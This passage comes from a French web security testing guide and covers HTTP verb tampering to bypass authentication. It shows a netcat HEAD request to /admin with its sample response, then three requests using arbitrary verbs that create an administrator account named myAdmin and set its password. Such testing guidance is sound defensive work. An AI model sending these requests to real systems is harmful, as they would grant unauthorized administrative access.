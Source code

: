 Chercher une page, avec une contrainte de sécurité qui devrait
normalement conduire à une redirection "302" vers une page de connexion,
ou à une connexion directe. L’URL de test de l’exemple fonctionne ainsi,
comme beaucoup d’applications web. Néanmoins, si le testeur reçoit une
réponse "200" qui n’est pas une page de connexion, il est possible de
contourner l’authentification et donc les autorisations d’accès :

    $ nc www.example.com 80
    HEAD /admin HTTP/1.1
    Host: www.example.com

    HTTP/1.1 200 OK
    Date: Mon, 18 Aug 2008 22:44:11 GMT
    Server: Apache
    Set-Cookie: PHPSESSID=pKi...; path=/; HttpOnly
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Set-Cookie: adminOnlyCookie1=...; expires=Tue, 18-Aug-2009 22:44:31 GMT; domain=www.example.com
    Set-Cookie: adminOnlyCookie2=...; expires=Mon, 18-Aug-2008 22:54:31 GMT; domain=www.example.com
    Set-Cookie: adminOnlyCookie3=...; expires=Sun, 19-Aug-2007 22:44:30 GMT; domain=www.example.com
    Content-Language: EN
    Connection: close
    Content-Type: text/html; charset=ISO-8859-1

Si le testeur reçoit un "405 Method not allowed" ou un "501 Method
Unimplemented", la cible (application / framework / langage / système /
parefeu) fonctionne correctement. S’il reçoit un "200" en retour, et que
la réponse ne contient pas de corps de message, c’est que l’application
a accepté la requête sans effectuer de contrôle d’authentification et
d’autorisation ce qui garantit de pouvoir effectuer des tests
complémentaires.

Si le testeur pense que le système est vulnérable à ce problème, il doit
tenter une attaque de type CSRF (falsification de requête intersites)
pour l’exploiter au maximum :

  - FOOBAR /admin/createUser.php?member=myAdmin
  - JEFF
    /admin/changePw.php?member=myAdmin\&passwd=foo123\&confirm=foo123
  - CATS /admin/groupEdit.php?group=Admins\&member=myAdmin\&action=add

Avec de la chance, en utilisant les trois commandes ci-dessus,
-modifiées pour s’adapter à l’application et aux besoins du test- un
nouvel utilisateur sera créé avec un mot de passe choisi et des droits
administrateur, tout cela avec la soumission de requêtes à l’aveugle.

## Outils

  - NetCat - <http://nc110.sourceforge.net>
  - cURL - <http://curl.haxx.se/>

## Références
